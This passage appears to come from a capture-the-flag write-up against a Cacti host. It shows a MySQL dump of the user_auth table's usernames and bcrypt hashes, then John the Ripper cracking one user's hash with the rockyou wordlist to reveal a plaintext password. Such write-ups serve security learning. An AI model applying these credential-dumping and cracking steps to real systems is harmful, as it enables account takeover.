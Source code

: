     | show_preview           | char(2)               | NO   |     | on      |                |
    | graph_settings         | char(2)               | YES  |     | NULL    |                |
    | login_opts             | tinyint(3) unsigned   | NO   |     | 1       |                |
    | policy_graphs          | tinyint(3) unsigned   | NO   |     | 1       |                |
    | policy_trees           | tinyint(3) unsigned   | NO   |     | 1       |                |
    | policy_hosts           | tinyint(3) unsigned   | NO   |     | 1       |                |
    | policy_graph_templates | tinyint(3) unsigned   | NO   |     | 1       |                |
    | enabled                | char(2)               | NO   | MUL | on      |                |
    | lastchange             | int(11)               | NO   |     | -1      |                |
    | lastlogin              | int(11)               | NO   |     | -1      |                |
    | password_history       | varchar(4096)         | NO   |     | -1      |                |
    | locked                 | varchar(3)            | NO   |     |         |                |
    | failed_attempts        | int(5)                | NO   |     | 0       |                |
    | lastfail               | int(10) unsigned      | NO   |     | 0       |                |
    | reset_perms            | int(10) unsigned      | NO   |     | 0       |                |
    +------------------------+-----------------------+------+-----+---------+----------------+
    25 rows in set (0.002 sec)
    MySQL [cacti]> select username,password from user_auth;
    +----------+--------------------------------------------------------------+
    | username | password                                                     |
    +----------+--------------------------------------------------------------+
    | admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
    | guest    | 43e9a4ab75570f5b|               
    | marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
    +----------+--------------------------------------------------------------+
    3 rows in set (0.001 sec)  
    

### Crack Hashes

I’ll drop these into a file and try to crack them. `hashcat` is slow on my
setup with brcypt, but `john` breaks marcus’ hash relatively quickly:

    
    
    oxdf@hacky$ /opt/john/run/john hashes --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 1024 for all loaded hashes
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
    funkymonkey      (marcus) 
    